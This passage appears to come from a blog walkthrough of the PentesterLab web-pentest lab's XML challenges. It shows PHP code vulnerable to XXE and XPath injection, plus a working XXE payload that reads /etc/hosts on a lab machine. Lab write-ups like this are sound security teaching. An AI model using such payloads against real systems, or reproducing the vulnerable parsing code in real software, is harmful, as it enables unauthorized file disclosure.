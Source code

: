
### XML attacks

**Example 1**


{% img center /images/pentest/webpentester/xml1.png 'xml1' 'xml 1' %}


A twist on the previous challenges, this time with the use of XML:


``` php
Hello  
<?php
  $xml=simplexml_load_string($_GET['xml']);
  print_r((string)$xml);
?>
```


This particular vulnerability revolves around [XML injection](https://phpsecurity.readthedocs.io/en/latest/Injection-Attacks.html#xml-injection):


> Custom entities can be defined by including them directly in an optional DOCTYPE and the expanded 
> value they represent may reference an external resource to be included. It is this capacity of 
> ordinary XML to carry custom references which can be expanded with the contents of an external 
> resources that gives rise to an XXE vulnerability.

So, I defined the following entity:


``` plain
<!DOCTYPE results [<!ENTITY hacker SYSTEM "file:///etc/hosts">]>
```


This entity can be referenced with <code>&hacker;</code>. Of course, we will need to URL encode it. Here's the URL with the XML injection:


``` plain
192.168.217.138/xml/example1.php?xml=<!DOCTYPE results [<!ENTITY hacker SYSTEM "file:///etc/hosts">]><test>%26hacker%3B</test>
```


{% img center /images/pentest/webpentester/xml1_inj.png 'xml1' 'xml injection' %}


**Example 2**

Another hello page, but the URL is a bit different: http://192.168.217.138/xml/example2.php?name=hacker


``` php
  $x = "<data><users><user><name>hacker</name><message>Hello hacker</message><password>pentesterlab</password></user><user><name>admin</name><message>Hello admin</message><password>s3cr3tP4ssw0rd</password></user></users></data>";

  $xml=simplexml_load_string($x);
  $xpath = "users/user/name[.='".$_GET['name']."']/parent::*/message";
  $res = ($xml->xpath($xpath));
  while(list( ,$node) = each($res)) {
  	echo $node;
  } 
```
